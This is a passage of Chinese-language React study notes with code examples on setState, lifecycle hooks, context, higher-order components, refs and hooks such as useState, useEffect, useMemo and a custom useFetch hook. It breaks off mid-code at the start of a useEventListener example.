this.state = {
counter: 0,
temp: 0
};
}
componentDidMount() {
this.changeValue(1);
document.getElementById('test').addEventListener('click', () => this.changeValue(1))
}
// setState 在合成事件和生命周期中是异步的，其实是批量更新，为了性能优化。把多次 setState 合成一次
changeValue(v) {
this.setState({
counter: this.state.counter + v
}, () => {
// callback 在 state 更新完成之后执行
console.log(this.state.counter, 'callback counter')
});
console.log(this.state.counter, 'counter');
}
// setTimeout 和原生事件 中 setState 是同步的
setCounter() {
setTimeout(() => {
this.changeValue(1);
});
}
// setState 传递一个函数就可以实现链式调用。如果不用这种形式，那么 setState 多次调用修改同一个值，则只有最后一次起作用，将前面的调用都覆盖掉
linkChangeValue(v) {
this.setState((state) => {
return {
temp: state.temp + v
}
})
}
setTemp() {
this.linkChangeValue(1);
this.linkChangeValue(2);
this.linkChangeValue(3);
}
render() {
const { counter, temp } = this.state;
return (
<div>
<div>setState</div>
<button onClick={() => this.setCounter()}>{counter}</button>
<div id="test">test</div>
<div onClick={() => this.setTemp()}>{temp}</div>
</div>
)
}
}
props.children
Layout.js
import React, { Component } from 'react'
import TopBar from './TopBar'
import BottomBar from './BottomBar'
export default class Layout extends Component {
render() {
const { children, showTopBar, showBottomBar } = this.props;
return (
<div>
{showTopBar && <TopBar />}
{children.content}
<br/>
{children.txt}
<button onClick={children.btnClick}>按钮</button>
{showBottomBar && <BottomBar />}
</div>
)
}
}
HomePage.js
import React, { Component } from 'react'
import Layout from './Layout'
export default class HomePage extends Component {
render() {
return (
<div>
<Layout showTopBar={false} showBottomBar={true}>
{
{
content: 'HomePage',
txt: '文字',
btnClick: () => console.log('点击按钮')
}
}
</Layout>
</div>
)
}
}
通过例子可以看到，子组件闭合标签中的任意内容都作为 props 的 children 属性传递给了子组件。
事件处理函数绑定组件 this 的三种方法
- constructor 中使用 bind
- 给元素的事件属性传递一个箭头函数，箭头函数中再调用对应的函数
- public class fields 语法
export default class App extends Component {
constructor(props) {
super(porps);
this.handleClick = this.handleClick.bind(this);
}
handleClick() {
}
handleClick2(p1, event) {
}
handleClick3 = () => {}
handleClick4(p1, event) {
}
render() {
return (
<div>
<button onClick={this.handleClick}>按钮1</button>
<button onClick={(e) => this.handleClick2('666', e)}>按钮2</button>
<button onClick={this.handleClick3}>按钮3</button>
<button onClick={this.handleClick4.bind(this, '666')}>按钮4</button>
</div>
)
}
}
生命周期
React 组件的生命周期分为挂载、更新、卸载阶段。React16.4 版本后的生命周期钩子函数只能在类组件中使用，而函数组件中的生命周期钩子函数用 React Hook 来实现。
挂载阶段
- constructor
- getDerivedStateFromProps
- componentDidMount
- render
import React from 'react';
class HelloWorld extends React.Component {
constructor(props) {
super(props);
this.state = { title: 'hello React' };
console.log('执行constructor')
}
static getDerivedStateFromProps(props, state){
console.log('执行getDerivedStateFromProps')
return null;
}
componentDidMount(){
console.log('执行componentDidMount')
}
render() {
console.log('执行render')
return (
<div>{this.state.title}</div>
);
}
}
export default HelloWorld;
- constructor 仅用于以下两种情况：通过给 this.state 赋值对象来初始化内部 state。为事件处理函数绑定实例。
- getDerivedStateFromProps 会在调用 render 方法之前调用，并且在初始挂载及后续更新时都会被调用。它应返回一个对象来更新 state，如果返回 null 则不更新任何内容。
- componentDidMount 会在组件挂载后（插入 DOM 树中）立即调用。
- 获取 DOM 元素
- 请求服务端数据
- 监听事件，必须在 componentWillUnmount 中取消监听
- 可以调用 this.setState() 来改变 state
更新阶段
- getDerivedStateFromProps
- shouldComponentUpdate
- render
- getSnapshotBeforeUpdate
- componentDidUpdate
import React from 'react';
class HelloWorld extends React.Component {
constructor(props: any) {
super(props);
this.state = {
title: 'hello world'
}
this.update = this.update.bind(this);
}
static getDerivedStateFromProps(props, state) {
console.log('执行getDerivedStateFromProps');
return null;
}
shouldComponentUpdate(nextProps, nextState) {
console.log('执行shouldComponentUpdate');
return true;
}
getSnapshotBeforeUpdate(prevProps, prevState) {
console.log('执行getSnapshotBeforeUpdate');
return null;
}
componentDidUpdate() {
console.log('执行componentDidUpdate')
}
update() {
this.setState({
title: 'hello react'
})
}
render() {
console.log('执行render')
return (
<div onClick={this.update}>{this.state.title}</div>
)
}
}
export default HelloWorld;
有三个操作会触发组件 update：
- 组件的 props 发生变化
- 执行 this.setState
- 执行 this.forceUpdate
shouldComponentUpdate(nextProps, nextState) {
if (this.props.color !== nextProps.color) {
return true;
}
if (this.state.count !== nextState.count) {
return true;
}
return false;
}
-
shouldComponentUpdate
- shouldComponentUpdate 接收更新之后的 state 和 props，通过和更新前的 state 和 props 对比，来判断是否更新组件，如果函数最后返回 true 则更新组件，反之返回 false 则不更新组件，一般用于性能优化
- 在组件中执行 this.forceUpdate 触发组件更新，则不会执行 shouldComponentUpdate 钩子函数
- 在 shouldComponentUpdate 中执行 this.setState 时，必须在一个条件语句里中，否会陷入无限更新的死循环，导致程序崩溃
- 函数最后必须返回 true 或 false，若返回 false，后续 render、getSnapshotBeforeUpdate、componentDidUpdate 钩子函数不再被调用
-
getSnapshotBeforeUpdate
- getSnapshotBeforeUpdate 调用时，props 和 state 已经更新了，故该钩子函数接收更新前的 props 和 state 作为参数，作为比较使用。getSnapshotBeforeUpdate 钩子函数最后返回一个值，该值会被 componentDidUpdate 钩子函数的第三个参数 snapshot 接收。
- getSnapshotBeforeUpdate 钩子函数是在组件重新渲染后挂载到 DOM 之前被调用，故在该钩子函数中获取到的 DOM 还是更新前的 DOM ，一般用于组件 DOM 更新做一些交互操作。
- 在其中执行 this.forceUpdate 或 this.setState 时，必须在一个条件语句里中，否会陷入无限更新的死循环，导致程序崩溃；
- 函数最后必须返回一个值或 null，否则代码会报错；
- 必须和 componentDidUpdate 钩子函数一起调用，否则代码会报错
-
componentDidUpdate
- componentDidUpdate 在组件重新渲染后并挂载到 DOM 中后才执行的，函数参数接收更新前的 state 和 props，还用snapshot 参数接收 getSnapshotBeforeUpdate 钩子函数返回值
- 在其中执行 this.forceUpdate 或 this.setState 时，必须在一个条件语句里中，否会陷入无限更新的死循环，导致程序崩溃
- 如果 shouldComponentUpdate 钩子函数返回值为 false，则不会调用 componentDidUpdate 钩子函数
卸载阶段
componentWillUnmount 会在组件卸载及销毁之前调用。我们一般在其中处理以下事项：
- 清除定时器
- 取消网络请求
- 解绑在 componentDidMount 钩子函数中监听的事件
父子组件挂载顺序
- 父 constructor
- 父 getDerivedStateFromProps
- 父 render
- 子 constructor
- 子 getDerivedStateFromProps
- 子 render
- 子 componentDidMount
- 父 componentDidMount
父子组件更新顺序
- 父 getDerivedStateFromProps
- 父 shouldComponentUpdate
- 父 render
- 子 getDerivedStateFromProps
- 子 shouldComponentUpdate
- 子 render
- 子 getSnapshotBeforeUpdate
- 父 getSnapshotBeforeUpdate
- 子 componentDidUpdate
- 父 componentDidUpdate
父子组件卸载顺序
- 子 componentWillUnmount
- 父 componentWillUnmount
context
context 的使用场景
- 当所有组件有一些共享的或者全局的数据，那么使用 props 传递这些数据给深层次的组件将变得繁琐，这时候应该使用 context。
class App extends React.Component {
render() {
return <Toolbar theme="dark" />;
}
}
function Toolbar(props) {
// Toolbar 组件接受一个额外的“theme”属性，然后传递给 ThemedButton 组件。
// 如果应用中每一个单独的按钮都需要知道 theme 的值，这会是件很麻烦的事，
// 因为必须将这个值层层传递所有组件。
return (
<div>
<ThemedButton theme={props.theme} />
</div>
);
}
class ThemedButton extends React.Component {
render() {
return <Button theme={this.props.theme} />;
}
}
如果使用 context 如下
// Context 可以让我们无须明确地传遍每一个组件，就能将值深入传递进组件树。
// 为当前的 theme 创建一个 context（“light”为默认值）。
const ThemeContext = React.createContext('light');
class App extends React.Component {
render() {
// 使用一个 Provider 来将当前的 theme 传递给以下的组件树。
// 无论多深，任何组件都能读取这个值。
// 在这个例子中，我们将 “dark” 作为当前的值传递下去。
return (
<ThemeContext.Provider value="dark">
<Toolbar />
</ThemeContext.Provider>
);
}
}
// 中间的组件再也不必指明往下传递 theme 了。
function Toolbar() {
return (
<div>
<ThemedButton />
</div>
);
}
class ThemedButton extends React.Component {
// 指定 contextType 读取当前的 theme context。
// React 会往上找到最近的 theme Provider，然后使用它的值。
// 在这个例子中，当前的 theme 值为 “dark”。
static contextType = ThemeContext;
render() {
return <Button theme={this.context} />;
}
}
- 如果只是想避免层层传递一些属性，这些属性并不是全局的，那么没有必要使用 context，因为会使得复用性变差，这时候应该使用组合的形式，也就是将深层的组件作为 props 从顶层传递下去，最后在深层使用直接显示即可。或者将深层组件放在顶层组件的闭合标签之内包裹（类似插槽），然后使用 props.children 传递下去。
function Page(props) {
const user = props.user;
const userLink = (
<Link href={user.permalink}>
<Avatar user={user} size={props.avatarSize} />
</Link>
);
return <PageLayout userLink={userLink} />;
}
// 现在，我们有这样的组件：
<Page user={user} avatarSize={avatarSize} />
// ... 渲染出 ...
<PageLayout userLink={...} />
// ... 渲染出 ...
<NavigationBar userLink={...} />
// ... 渲染出 ...
{props.userLink}
context api
-
React.createContext
- 创建一个 Context 对象。当 React 渲染一个订阅了这个 Context 对象的组件，这个组件会从组件树中离自身最近的那个匹配的 Provider 中读取到当前的 context 值。
const MyContext = React.createContext(defaultValue); -
Context.Provider
- 每个 Context 对象都会返回一个 Provider React 组件，它允许消费组件订阅 context 的变化。Provider 接收一个 value 属性，传递给消费组件。当 Provider 的 value 值发生变化时，它内部的所有消费组件都会重新渲染。
<MyContext.Provider value={/* 某个值 */}>- Provider 组件的 value 值的新旧变化检测使用的是 Object.is 算法，所以会出现一些问题：如果给 Provider 的 value 传递的值是引用类型，那么每一次 Provider 重新渲染的时候，它包裹的所有消费组件都会重新渲染。因为 value 值总是被赋值为新对象。
class App extends React.Component { render() { return ( <MyContext.Provider value={{something: 'something'}}> <Toolbar /> </MyContext.Provider> ); } }将这个对象提到父组件的 state 中可以解决这个问题：
class App extends React.Component { constructor(props) { super(props); this.state = { value: {something: 'something'}, }; } render() { return ( <MyContext.Provider value={this.state.value}> <Toolbar /> </MyContext.Provider> ); } } -
Class.contextType
- 将 class 上的静态属性 contextType 设置为 React.createContext 创建的 context 对象，就可以在任意生命周期和 render 函数中使用 this.context 获取到最近的 provider 提供的值。
class MyClass extends React.Component { // static contextType = MyContext; 这样写也可以 componentDidMount() { let value = this.context; /* 在组件挂载完成后，使用 MyContext 组件的值来执行一些有副作用的操作 */ } componentDidUpdate() { let value = this.context; /* ... */ } componentWillUnmount() { let value = this.context; /* ... */ } render() { let value = this.context; /* 基于 MyContext 组件的值进行渲染 */ } } MyClass.contextType = MyContext; -
Context.Consumer
- Context.Consumer 使得函数式组件可以订阅 context 中的数据。这种方法需要一个函数作为子元素。这个函数接收当前的 context 值，并返回一个 React 节点。
export const ThemeContext = React.createContext({ theme: themes.dark, toggleTheme: () => {}, }); function ThemeTogglerButton() { return ( <ThemeContext.Consumer> {({theme, toggleTheme}) => ( <button onClick={toggleTheme} style={{backgroundColor: theme.background}}> Toggle Theme </button> )} </ThemeContext.Consumer> ); } -
Context.displayName
- 可以为 context 对象设置 displayName 属性，在 React DevTools 中将显示为该 displayName 属性
const MyContext = React.createContext(/* some value */); MyContext.displayName = 'MyDisplayName'; <MyContext.Provider> // "MyDisplayName.Provider" 在 DevTools 中 <MyContext.Consumer> // "MyDisplayName.Consumer" 在 DevTools 中
例子
- 消费多个 context
// Theme context，默认的 theme 是 “light” 值
const ThemeContext = React.createContext('light');
// 用户登录 context
const UserContext = React.createContext({
name: 'Guest',
});
class App extends React.Component {
render() {
const {signedInUser, theme} = this.props;
// 提供初始 context 值的 App 组件
return (
<ThemeContext.Provider value={theme}>
<UserContext.Provider value={signedInUser}>
<Layout />
</UserContext.Provider>
</ThemeContext.Provider>
);
}
}
function Layout() {
return (
<div>
<Sidebar />
<Content />
</div>
);
}
// 一个组件可能会消费多个 context
function Content() {
return (
<ThemeContext.Consumer>
{theme => (
<UserContext.Consumer>
{user => (
<ProfilePage user={user} theme={theme} />
)}
</UserContext.Consumer>
)}
</ThemeContext.Consumer>
);
}
HOC、render props、props.children
HOC
常用的高阶组件有两种方式正向的属性代理和反向的组件继承。
- 所谓正向属性代理，就是用组件包裹一层代理组件，在代理组件上，我们可以做一些，对源组件的代理操作。
function HOC(WrapComponent) {
return class Advance extends React.Component {
state = {
name:'alien'
}
render() {
return <WrapComponent { ...this.props } { ...this.state } />
}
}
}
- 优点
- 正常属性代理可以和业务组件低耦合，零耦合，对于条件渲染和 props 属性增强，只负责控制子组件渲染和传递额外的 props 就可以，所以无须知道，业务组件做了些什么。所以正向属性代理，更适合做一些开源项目的 HOC，目前开源的 HOC 基本都是通过这个模式实现的。
- 同样适用于 class 声明组件，和 function 声明的组件。
- 可以完全隔离业务组件的渲染,相比反向继承，属性代理这种模式。可以完全控制业务组件渲染与否，可以避免反向继承带来一些副作用，比如生命周期的执行。
- 可以嵌套使用，多个 HOC 是可以嵌套使用的，而且一般不会限制包装HOC的先后顺序。
- 缺点
- 一般无法直接获取业务组件的状态，如果想要获取，需要 ref 获取组件实例。
- 无法直接继承静态属性。如果需要继承需要手动处理，或者引入第三方库。
下面是一个例子
class Index extends React.Component {
render() {
return <div> hello,world </div>
}
}
Index.say = function() {
console.log('my name is alien')
}
function HOC(Component) {
return class wrapComponent extends React.Component {
render() {
return <Component { ...this.props } { ...this.state } />
}
}
}
const newIndex = HOC(Index)
console.log(newIndex.say) // undefined
上面例子中可以看出，经过 HOC 处理后的高阶组件无法继承原来组件 Index 的静态属性 say，会打印 undefined。
- 反向继承和属性代理有一定的区别，在于包装后的组件继承了业务组件本身，所以我们我无须在去实例化我们的业务组件。当前高阶组件就是继承后，加强型的业务组件。这种方式类似于组件的强化。
class Index extends React.Component {
render() {
return <div> hello,world </div>
}
}
function HOC(Component) {
return class wrapComponent extends Component{ /* 直接继承需要包装的组件 */}
}
export default HOC(Index)
优点
- 方便获取组件内部状态，比如state，props，生命周期，绑定的事件函数等
- es6 继承可以良好继承静态属性。我们无须对静态属性和方法进行额外的处理。
缺点
- 无状态组件无法使用。
- 和被包装的组件强耦合，需要知道被包装的组件的内部状态，具体是做什么的
- 如果多个反向继承 hoc 嵌套在一起，当前状态会覆盖上一个状态。这样带来的隐患是非常大的，比如说有多个 componentDidMount，当前 componentDidMount 会覆盖上一个 componentDidMount。这样副作用串联起来，影响很大。
下面是一个例子：
class Index extends React.Component {
render() {
return <div> hello,world </div>
}
}
Index.say = function() {
console.log('my name is alien')
}
function HOC(Component) {
return class wrapComponent extends Component {}
}
const newIndex = HOC(Index)
console.log(newIndex.say)
HOC 场景
- 混入 props
- 高阶组件最常用的功能，承接上层的 props，在混入自己的 props，来强化组件
function FactoryHOC(Component) { class Hoc extends React.Component { state = { x: undefined, y: undefined } render() { return ( <div onMouseMove={e => { this.setState({ x: e.clientX, y: e.clientY }) }}> <Component {...this.props} x={this.state.x} y={this.state.y}></Component> </div> ) } } return Hoc } const Mouse = FactoryHOC((props) => <div>mouse{props.x}{props.y}</div>)
function renderHOC(WrapComponent){
return class Index extends React.Component{
constructor(props){
super(props)
this.state={ visible:true }
}
setVisible(){
this.setState({ visible:!this.state.visible })
}
render(){
const { visible } = this.state
return <div className="box" >
<button onClick={ this.setVisible.bind(this) } > 挂载组件 </button>
{ visible ? <WrapComponent { ...this.props } setVisible={ this.setVisible.bind(this) } /> : <div className="icon" ><SyncOutlined spin className="theicon" /></div> }
</div>
}
}
}
class Index extends React.Component{
render(){
const { setVisible } = this.props
return <div className="box" >
<img src='https://ss2.bdstatic.com/70cFvnSh_Q1YnxGkpoWK1HF6hhy/it/u=294206908
<p>hello,my name is alien</p>,2427609994&fm=26&gp=0.jpg' />
<button onClick={() => setVisible()} > 卸载当前组件 </button>
</div>
}
}
export default renderHOC(Index)
ref
ref 用于引用原生 DOM 或者类组件实例对象。
class MyComponent extends React.Component {
constructor(props) {
super(props);
this.myRef = React.createRef();
}
render() {
return <div ref={this.myRef} />;
}
}
const node = this.myRef.current; // div 原生 DOM 对象
- 当 ref 属性用于 HTML 元素时， ref.current 是原生 DOM 对象
- 当 ref 属性用于 class 组件时，ref.current 是组件的挂载实例
- 不能在函数组件上使用 ref 属性，因为他们没有实例
例子
- 直接在 DOM 元素上设置 ref，则 ref.current 指向 DOM 节点在父级组件中用 ref 属性设置到子组件标签上，这样 ref.current 就指向了子组件的实例，可以直接调用子组件的方法
class CustomTextInput extends React.Component {
constructor(props) {
super(props);
this.textInput = React.createRef();
this.focusTextInput = this.focusTextInput.bind(this);
}
focusTextInput() {
// 直接使用原生 API 使 text 输入框获得焦点
// 注意：我们通过 "current" 来访问 DOM 节点
this.textInput.current.focus();
}
render() {
return (
<div>
<input
type="text"
ref={this.textInput} />
<input
type="button"
value="Focus the text input"
onClick={this.focusTextInput}
/>
</div>
);
}
}
class AutoFocusTextInput extends React.Component {
constructor(props) {
super(props);
this.textInput = React.createRef();
}
// 在父级组件中用 ref 属性设置到子组件标签上，这样 ref.current 就指向了子组件的实例，可以直接调用子组件的方法
componentDidMount() {
this.textInput.current.focusTextInput();
}
render() {
return (
<CustomTextInput ref={this.textInput} />
);
}
}
- 不能在函数组件的标签上使用 ref 属性
function MyFunctionComponent() {
return <input />;
}
class Parent extends React.Component {
constructor(props) {
super(props);
this.textInput = React.createRef();
}
render() {
// 函数组件没有实例
return (
<MyFunctionComponent ref={this.textInput} />
);
}
}
- 可以在函数组件内部使用 ref 属性，只要它指向一个 DOM 元素或 class 组件
function CustomTextInput(props) {
// 这里必须声明 textInput，这样 ref 才可以引用它
const textInput = useRef(null);
function handleClick() {
textInput.current.focus();
}
return (
<div>
<input
type="text"
ref={textInput} />
<input
type="button"
value="Focus the text input"
onClick={handleClick}
/>
</div>
);
}
ref 回调
注册 ref 属性时传递一个回调函数，接收的参数就是想要获取的 DOM 对象或者组件实例对象。
class CustomTextInput extends React.Component {
constructor(props) {
super(props);
this.textInput = null;
this.setTextInputRef = element => {
this.textInput = element;
};
this.focusTextInput = () => {
// 使用原生 DOM API 使 text 输入框获得焦点
if (this.textInput) this.textInput.focus();
};
}
componentDidMount() {
// 组件挂载后，让文本框自动获得焦点
this.focusTextInput();
}
render() {
// 使用 `ref` 的回调函数将 text 输入框 DOM 节点的引用存储到 React
// 实例上（比如 this.textInput）
return (
<div>
<input
type="text"
ref={this.setTextInputRef}
/>
<input
type="button"
value="Focus the text input"
onClick={this.focusTextInput}
/>
</div>
);
}
}
组件间传递 ref 回调可以使父组件拿到子组件的 DOM 元素
function CustomTextInput(props) {
return (
<div>
<input ref={props.inputRef} />
</div>
);
}
class Parent extends React.Component {
render() {
return (
<CustomTextInput
inputRef={el => this.inputElement = el}
/>
);
}
}
ref 转发
- ref 转发可以将 ref 传递给子组件这样父组件可以拿到子组件的 DOM 对象
const FancyButton = React.forwardRef((props, ref) => (
<button ref={ref} className="FancyButton">
{props.children}
</button>
));
// 你可以直接获取 DOM button 的 ref：
const ref = React.createRef();
<FancyButton ref={ref}>Click me!</FancyButton>;
- 高阶组件中转发 ref
// logProps 高阶组件将组件包裹一下，目的是打印 props 的变化
function logProps(Component) {
class LogProps extends React.Component {
componentDidUpdate(prevProps) {
console.log('old props:', prevProps);
console.log('new props:', this.props);
}
render() {
const {forwardedRef, ...rest} = this.props;
// 将自定义的 prop 属性 “forwardedRef” 定义为 ref
return <Component ref={forwardedRef} {...rest} />;
}
}
// 注意 React.forwardRef 回调的第二个参数 “ref”。
// 我们可以将其作为常规 prop 属性传递给 LogProps，例如 “forwardedRef”
// 然后它就可以被挂载到被 LogProps 包裹的子组件上。
return React.forwardRef((props, ref) => {
return <LogProps {...props} forwardedRef={ref} />;
});
}
hook
为什么使用 hook ？因为类组件有以下缺点：
- 在组件之间复用状态逻辑很难
- 复杂组件变得难以理解
- 难以理解的 class 语法
hook api
-
useState
const [state, setState] = useState(initialState)- useState 有一个参数可以为任意数据类型，作为默认值
- useState 返回值为一个数组，数组的第一个参数为 state，第二个参数为一个改变 state 的函数（功能和 this.setState 一样）
- hook 的 setState 更新 state 和类组件的 this.setState 不一样，hook setState 会替换值，而 this.setState 会合并值
import React, { useState } from 'react'; function Example() { const [count, setCount] = useState(0); return ( <div> <p>You clicked {count} times</p> <button onClick={() => setCount(count + 1)}>Click me</button> </div> ); } export default Example; -
useEffect
useEffect(fn, array)- Effect Hook 可以让你在函数组件中执行副作用操作（数据获取，设置订阅以及手动更改 React 组件中的 DOM 都属于副作用）
- 可以把 useEffect Hook 看做 componentDidMount componentDidUpdate 和 componentWillUnmount 这三个函数的组合
- useEffect 实现 componentDidMount。如果第二个参数为空数组，useEffect 相当于类组件里面 componentDidMount
import React, { useState, useEffect } from 'react'; function Example() { const [count, setCount] = useState(0); useEffect(() => { console.log('我只会在组件初次挂载完成后执行'); }, []); return ( <div> <p>You clicked {count} times</p> <button onClick={() => setCount(count + 1)}>Click me</button> </div> ); } export default Example;- useEffect 实现 componentDidUpdate。如果不传第二个参数，useEffect 会在初次渲染和每次更新时，都会执行
import React, { useState, useEffect } from "react"; function Example() { const [count, setCount] = useState(0); useEffect(() => { console.log('我会在初次组件挂载完成后以及重新渲染时执行'); }); return ( <div> <p>You clicked {count} times</p> <button onClick={() => setCount(count + 1)}>Click me</button> </div> ); }- useEffect 实现 componentWillUnmount。useEffect 返回一个函数，React 将会在执行清除操作时调用它。每一次更新 state 触发 Effect hook，都会先调用返回的清除操作函数，然后再调用下一轮的 Effect hook。这是因为先要清除上一轮的 Effect。
useEffect(() => { console.log("订阅一些事件"); return () => { console.log("执行清除操作") } });- useEffect 的第二个参数是 Effect 所依赖的值组成的数组。如果传递空数组，那么只在渲染后执行一次；如果传递的数组有多个子元素，则只要有一个改变，Effect hook 就会被触发。
- 在函数组件中声明多个 Effect，则会按照声明的顺序依次调用。
- useEffect 本身不支持异步写法（async await）,可以使用下面两种方法使其支持：
function App() { useEffect(() => { (async () => { await getData(); })(); }); } function App() { useEffect(() => { const getDataTemp = async () => { await getData(); } getDataTemp(); }); } -
useContext
const value = useContext(MyContext);- 接收一个 context 对象（React.createContext 的返回值）并返回该 context 的当前值。当组件上层最近的 MyContext.Provider 更新时，该 Hook 会触发重渲染，并使用最新传递给 MyContext provider 的 context value 值。即使祖先使用 React.memo 或 shouldComponentUpdate，也会在组件本身使用 useContext 时重新渲染。其实 useContext 就是用于在函数组件中获取 context 对象的值。
// index.js import React from "react"; import ReactDOM from "react-dom"; import App from "./App"; // 创建两个context export const UserContext = React.createContext(); export const TokenContext = React.createContext(); ReactDOM.render( <UserContext.Provider value={{ id: 1, name: "chimmy", age: "20" }}> <TokenContext.Provider value="我是token"> <App /> </TokenContext.Provider> </UserContext.Provider>, document.getElementById("root") ); // App.js import React, { useContext } from "react"; import { UserContext, TokenContext } from "./index"; function Example() { let user = useContext(UserContext); let token = useContext(TokenContext); console.log("UserContext", user); console.log("TokenContext", token); return ( <div> name:{user?.name},age:{user?.age} </div> ); } export default Example;- useContext(MyContext) 相当于 class 组件中的 static contextType = MyContext 或者 MyContext.Consumer。useContext(MyContext) 只是让你能够读取 context 的值以及订阅 context 的变化。你仍然需要在上层组件树中使用 MyContext.Provider 来为下层组件提供 context
-
useReducer
const [state, dispatch] = useReducer(reducer, initialArg, init);- useState 的替代方案。它接收一个形如 (state, action) => newState 的 reducer，并返回当前的 state 以及与其配套的 dispatch 方法。
import React, { useReducer } from "react"; export default function Home() { function reducer(state, action) { switch (action.type) { case "increment": return { ...state, counter: state.counter + 1 }; case "decrement": return { ...state, counter: state.counter - 1 }; default: return state; } } const [state, dispatch] = useReducer(reducer, { counter: 0 }); return ( <div> <h2>Home当前计数: {state.counter}</h2> <button onClick={(e) => dispatch({ type: "increment" })}>+1</button> <button onClick={(e) => dispatch({ type: "decrement" })}>-1</button> </div> ); } -
useCallback
const memoizedCallback = useCallback( () => { doSomething(a, b); }, [a, b], );- 返回一个 memoized 回调函数。把内联回调函数及依赖项数组作为参数传入 useCallback，它将返回该回调函数的 memoized 版本，该回调函数仅在某个依赖项改变时才会更新。当你把回调函数传递给经过优化的并使用引用相等性去避免非必要渲染（例如 shouldComponentUpdate）的子组件时，它将非常有用。
import React, { useState } from "react"; // 子组件 function Childs(props) { console.log("子组件渲染了"); return ( <> <button onClick={props.onClick}>改标题</button> <h1>{props.name}</h1> </> ); } const Child = React.memo(Childs); function App() { const [title, setTitle] = useState("这是一个 title"); const [subtitle, setSubtitle] = useState("我是一个副标题"); const callback = () => { setTitle("标题改变了"); }; return ( <div className="App"> <h1>{title}</h1> <h2>{subtitle}</h2> <button onClick={() => setSubtitle("副标题改变了")}>改副标题</button> <Child onClick={callback} name="桃桃" /> </div> ); }上面这个例子，当点击 Childs 中的改标题按钮后，会触发 App 中传入的方法去修改 title 这个 state，这样会触发 App 组件重新渲染，但是又触发 Childs 组件重新渲染，但是 Childs 组件的内容并没有变化。
- 一个组件重新重新渲染，一般三种情况：
- 要么是组件自己的状态改变
- 要么是父组件重新渲染，导致子组件重新渲染，但是父组件的 props 没有改变
- 要么是父组件重新渲染，导致子组件重新渲染，但是父组件传递的 props 改变
第一种很明显就排除了，当点击改副标题 的时候并没有去改变 Child 组件的状态；第二种情况，我们这个时候用 React.memo 来解决了这个问题，所以这种情况也排除。那么就是第三种情况了，当父组件重新渲染的时候，传递给子组件的 props 发生了改变，再看传递给 Child 组件的就两个属性，一个是 name，一个是 onClick ，name 是传递的常量，不会变，变的就是 onClick 了，为什么传递给 onClick 的 callback 函数会发生改变呢？其实在函数式组件里每次重新渲染，函数组件都会重头开始重新执行，那么这两次创建的 callback 函数肯定发生了改变，所以导致了子组件重新渲染。
const callback = () => { setTitle("标题改变了"); }; // 通过 useCallback 进行记忆 callback，并将记忆的 callback 传递给 Child <Child onClick={useCallback(callback, [])} name="桃桃" /> -
useMemo
const cacheSomething = useMemo(create, deps)- create：第一个参数为一个函数，函数的返回值作为缓存值。
- deps： 第二个参数为一个数组，存放当前 useMemo 的依赖项，在函数组件下一次执行的时候，会对比 deps 依赖项里面的状态，是否有改变，如果有改变重新执行 create ，得到新的缓存值。
- cacheSomething：返回值，执行 create 的返回值。如果 deps 中有依赖项改变，返回的重新执行 create 产生的值，否则取上一次缓存值。
- useMemo 原理：useMemo 会记录上一次执行 create 的返回值，并把它绑定在函数组件对应的 fiber 对象上，只要组件不销毁，缓存值就一直存在，但是 deps 中如果有一项改变，就会重新执行 create ，返回值作为新的值记录到 fiber 对象上。
function Child() { console.log("子组件渲染了") return <div>Child</div> } const Child = React.memo(Child) function APP() { const [count, setCount] = useState(0); const userInfo = { age: count, name: 'jimmy' } return <Child userInfo={userInfo}> }当函数组件重新 render 时，userInfo 每次都将是一个新的对象，无论 count 发生改变没，都会导致 Child 组件的重新渲染。
function Child() { console.log("子组件渲染了") return <div>Child</div> } function APP() { const [count, setCount] = useState(0); // 只有 count 改变了才会返回新的对象 const userInfo = useMemo(() => { return { name: "jimmy", age: count }; }, [count]); return <Child userInfo={userInfo}> } -
useCallback 和 useMemo 总结
- 简单理解 useCallback 与 useMemo 一个缓存的是函数，一个缓存的是函数的返回的结果。useCallback 是来优化子组件的，防止子组件的重复渲染。useMemo 可以优化当前组件也可以优化子组件，优化当前组件主要是通过 memoize 来将一些复杂的计算逻辑进行缓存。当然如果只是进行一些简单的计算也没必要使用 useMemo。我们可以将 useMemo 的返回值定义为返回一个函数这样就可以变通的实现了 useCallback。useCallback(fn, deps) 相当于 useMemo(() => fn, deps)
-
useRef
const refContainer = useRef(initialValue);- useRef 返回一个可变的 ref 对象，其 .current 属性被初始化为传入的参数（initialValue）。返回的 ref 对象在组件的整个生命周期内保持不变
import React, { useRef } from "react"; function Example() { const divRef = useRef(); function changeDOM() { // 获取整个div console.log("整个div", divRef.current); // 获取div的class console.log("div的class", divRef.current.className); // 获取div自定义属性 console.log("div自定义属性", divRef.current.getAttribute("data-clj")); } return ( <div> <div className="div-class" data-clj="我是div的自定义属性" ref={divRef}> 我是div </div> <button onClick={(e) => changeDOM()}>获取DOM</button> </div> ); } export default Example;- useRef 缓存数据。usestate 和 useReducer 保存的数据源一旦改变，就会重新渲染整个组件，所以这时候函数组件内部声明的变量，则下一次更新也会重置，因此可以使用 useRef 来缓存数据
import React, { useRef, useState, useEffect } from "react"; function Example() { const [count, setCount] = useState(0); const numRef = useRef(count); useEffect(() => { numRef.current = count; }, [count]); return ( <div> <h2>count上一次的值: {numRef.current}</h2> <h2>count这一次的值: {count}</h2> <button onClick={(e) => setCount(count + 10)}>+10</button> </div> ); } export default Example;当 ref 对象内容发生变化时，useRef 并不会通知你。变更 .current 属性不会引发组件重新渲染。所以，上面的例子中虽然numRef.current的值，已经改变了，但是页面上还是显示的上一次的值，重新更新时，才会显示上一次更新的值。
自定义 hook
useFetch
- data 存请求结果数据，error 存错误信息，loading 标识是否请求正在进行中。isMounted 用于标识是否当前 effect 被清除
import { useState, useEffect } from 'react';
const useFetch = (url = '', options = null) => {
const [data, setData] = useState(null);
const [error, setError] = useState(null);
const [loading, setLoading] = useState(false);
useEffect(() => {
let isMounted = true;
setLoading(true);
fetch(url, options)
.then(res => res.json())
.then(data => {
if (isMounted) {
setData(data);
setError(null);
}
})
.catch(error => {
if (isMounted) {
setError(error);
setData(null);
}
})
.finally(() => isMounted && setLoading(false));
return () => (isMounted = false);
}, [url, options]);
return { loading, error, data };
};
export default useFetch;
useFetch 使用范例：
import useFetch from './useFetch';
const App = () => {
const { loading, error, data = [] } = useFetch(
'https://hn.algolia.com/api/v1/search?query=react'
);
if (error) return <p>Error!</p>;
if (loading) return <p>Loading...</p>;
return (
<div>
<ul>
{data?.hits?.map(item => (
<li key={item.objectID}>
<a href={item.url}>{item.title}</a>
</li>
))}
</ul>
</div>
);
};
useEventListener
useEventListener 用于添加事件监听器
import { useEffect, useRef } from 'react';
const useEventListener = (
eventType = '',
